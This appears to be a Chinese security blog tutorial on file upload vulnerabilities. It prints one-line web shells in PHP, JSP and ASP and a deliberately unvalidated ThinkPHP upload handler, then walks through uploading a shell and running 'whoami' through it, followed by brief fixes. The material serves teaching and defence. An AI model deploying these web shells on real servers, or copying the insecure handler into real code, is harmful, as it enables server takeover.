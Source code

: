 ```yaml
---
# 当前页面内容标题
title: 文件上传漏洞
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - WEB安全
tag:
    - 文件上传漏洞
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 6
date: 2022-02-08
# 浏览量
pageview: true
---
```


## 漏洞描述

文件上传，在web程序中是一个非常常见的功能，而文件上传漏洞则是一个非常严重的漏洞，造成这个漏洞的原因就是，目标主机对文件上传的类型，没有有效的校验，导致攻击者可以上传恶意文件，从而获得服务器的特权访问，并进一步对服务器进行攻击。

下面是常见的一句话木马：

::: tabs

@tab PHP

```php
<?php eval($_POST['shell']) ?>
```

@tab JSP

```java
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

@tab ASP

```php
<%eval request("chopper")%>
```

:::

## 漏洞原理

下面是一个通过PHP制作的一个文件上传漏洞

主页`index.html`：

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>首页</title>
</head>
<body>
<p>欢迎{$user}</p>
<!--一个简单的form表单-->
<form action="{:url('index/upload')}" enctype="multipart/form-data" method="post" >
    <input type="file" name="image" /> <br>
    <input type="submit" value="上传" />
</form>
</body>
</html>
```

上传文件代码：

```php
public function upload(): string
{
    if(Session('?user')){
        $file = request()->file('image');
        $savepath = \think\facade\Filesystem::disk('public')->putFile('topic', $file);
        return "上传文件到：" . $savepath;
    }
    return "<a href='//'>请先登录</a>";
}
```

从上面的代码中，我没有对上传文件进行任何校验，并且返回上传的路径，从而人为的造成一个文件上传漏洞

下面是漏洞利用

准备一句话木马（xxx.php）：

```php
<?php @eval($_GET['shell']);?>
```

![image-20230210211508569](/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20230210211508569.png)

木马上传成功后，服务器会返回上传路径

![image-20230210211537159](/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20230210211537159.png)

`thinkphp`返回的路径是`public/storage`目录的相对路径，又因为`public`目录下的文件是公开的，所以添加上在路径前缀添加上`storage`后就可以直接访问。

```
http://127.0.0.1/storage/topic/20230210/021f42ae42edae7a913d58e9f0da2107.php?shell=system(%27whoami%27);
```

![image-20230210213337685](/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20230210213337685.png)

## 修复建议

1. 严格检验文件的类型，设置白名单
2. 重新命名并修改后缀

